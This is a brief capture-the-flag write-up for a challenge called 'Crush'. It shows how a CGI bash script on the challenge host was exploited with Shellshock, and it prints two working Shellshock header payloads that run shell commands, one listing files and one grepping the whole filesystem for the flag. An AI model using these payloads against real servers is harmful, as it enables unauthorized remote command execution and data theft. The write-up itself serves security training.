 # Crush

* The website was static! Tried getting information from robots.txt, sitemap but 404!
* Then after reading source, I found this url http://jh2i.com:50020/cgi-bin/crush.sh  
     `Dudes, woah! This is bash, duuuudddddeeeee.`
* Then I have tried the SHELLSHOCK! and it worked!
    > ` () { :; }; echo; echo; /bin/bash -c 'ls -la'`

    ![Shellshock](1.png)

* Now we have the shell, we still need to find the flag. I have looked at Apache directories, Apache config files, CGI directory, but there was nothing. So I had to do this!
    > `() { :; }; echo; echo; /bin/bash -c 'grep -ir LS{ /'`

    ![Flag](1.png)

* And the flag was in the `home` directory!

    > ### LLS{woah_dude_radical_shellshock}